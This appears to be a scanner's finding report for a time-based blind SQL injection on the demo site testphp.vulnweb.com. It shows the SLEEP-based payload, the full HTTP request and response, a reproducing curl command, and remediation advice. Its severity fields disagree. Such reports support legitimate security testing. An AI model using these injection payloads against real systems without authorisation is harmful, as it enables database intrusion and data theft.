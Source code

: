 ### Time-Based Blind SQL Injection (time-based-sqli-fuzzing-a5ebca2164701f3742156c47c46d78c248776ac736d1e1942176fa598e4d6e5f) found on testphp.vulnweb.com

----
**Details**: **time-based-sqli-fuzzing-a5ebca2164701f3742156c47c46d78c248776ac736d1e1942176fa598e4d6e5f** matched at testphp.vulnweb.com

**Protocol**: HTTP

**Full URL**: http://testphp.vulnweb.com/AJAX/infocateg.php?id=if(now()=sysdate(),SLEEP(7),0)

**Timestamp**: Thu Jun 12 23:21:59 +0800 WITA 2025

**Template Information**

| Key | Value |
| --- | --- |
| Name | Time-Based Blind SQL Injection |
| Authors | wahyuhadi |
| Tags | time-based-sqli, sqli, dast, blind |
| Severity | critical |
| Description | Time-Based SQL Injection is a type of Blind SQL Injection attack where an attacker determines database vulnerabilities by sending queries that force the database to delay its response. <br>If the response time changes, the attacker can infer whether the injected SQL query was successfully executed, even though there is no direct output from the database.<br> |
| tech | sql |
| severtity | high (7.5) |
| cvss-3.1 | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N |
| cvss-3.1-link | https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N |

**Request**
```http
GET /AJAX/infocateg.php?id=if(now()=sysdate(),SLEEP(7),0) HTTP/1.1
Host: testphp.vulnweb.com
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0
Accept: */*
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.5
Connection: keep-alive
Cookie: mycookie=3
Referer: http://testphp.vulnweb.com/AJAX/index.php


```

**Response**
```http
HTTP/1.1 200 OK
Connection: close
Transfer-Encoding: chunked
Content-Type: text/xml;charset=UTF-8
Date: Thu, 12 Jun 2025 15:21:59 GMT
Server: nginx/1.19.0
X-Powered-By: PHP/5.6.40-38+ubuntu20.04.1+deb.sury.org+1

<iteminfo></iteminfo>
```
**Metadata:**

- path: if(now()=sysdate(),SLEEP(7),0)

**Fixing**

- Prepared statements ensure that user input is treated as data, not executable SQL code. This completely prevents SQL injection.
- Stored procedures execute SQL commands safely within the database, reducing the risk of injection when properly implemented.
- Never display database error messages to users.
- Ensure that the database user only has necessary privileges (e.g., no DROP, ALTER, EXECUTE permissions for web users).




**CURL command**
```sh
curl -X 'GET' -d '' -H 'Accept: */*' -H 'Accept-Encoding: gzip, deflate' -H 'Accept-Language: en-US,en;q=0.5' -H 'Connection: keep-alive' -H 'Cookie: mycookie=3' -H 'Host: testphp.vulnweb.com' -H 'Referer: http://testphp.vulnweb.com/AJAX/index.php' -H 'User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:139.0) Gecko/20100101 Firefox/139.0' 'http://testphp.vulnweb.com/AJAX/infocateg.php?id=if(now()=sysdate(),SLEEP(7),0)'
```


----

Eagle Pulsar Team :  > From Home With Love